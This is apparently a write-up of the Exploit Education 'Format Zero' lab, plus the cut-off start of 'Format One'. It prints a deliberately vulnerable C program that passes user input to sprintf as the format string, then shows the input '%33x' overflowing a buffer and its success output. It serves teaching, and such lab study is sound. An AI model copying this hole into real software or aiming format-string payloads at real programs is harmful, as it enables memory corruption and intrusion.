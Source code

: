 # Format Zero
Heres the code we are trying to break:
```C
int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```
So we basically need the first 15 bytes of the buffer we supply to expand to something larger than the 32 bytes reserved for it in memory. 

%Nx will format to N characters of hex. So lets give it %33x and see what happens:

```bash
$ ./f0
Welcome to FORMAT ZERO, brought to you by https://exploit.education
%33x
Well done, the 'changeme' variable has been changed!
```
Nice :D


# Format One
Alright lets take a look at the code for this one...
```C
int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

```